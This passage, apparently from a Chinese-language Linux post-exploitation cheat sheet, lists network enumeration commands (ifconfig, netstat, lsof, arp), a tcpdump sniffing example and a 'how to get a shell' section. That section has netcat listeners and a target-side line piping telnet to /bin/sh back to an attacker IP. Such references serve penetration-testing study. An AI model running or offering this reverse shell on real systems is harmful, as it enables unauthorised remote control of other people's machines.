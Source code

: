 ## 通信与网络

### NIC(s)，系统有哪些？它是连接到哪一个网络？

```
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```

### 网络配置设置是什么？网络中有什么样的服务器？DHCP服务器？DNS服务器？网关？

```
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

### 其他用户主机与系统的通信？

```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

### 缓存？IP和/或MAC地址?

```
arp -e
route
/sbin/route -nee
```

数据包可能嗅探吗？可以看出什么？监听流量

```
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```

### 你如何get一个shell？你如何与系统进行交互？

```
[1]:
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

# Attacker. 输入 (命令)
nc -lvp 4444    
# Attacker. 输出(结果)
nc -lvp 4445    
# 在目标系统上. 使用 攻击者的IP!
telnet [attacker's ip] 44444 | /bin/sh | [local ip] 44445

[2]:
# Attacker 输入命令，输出结果
nc -lvp 4444  
```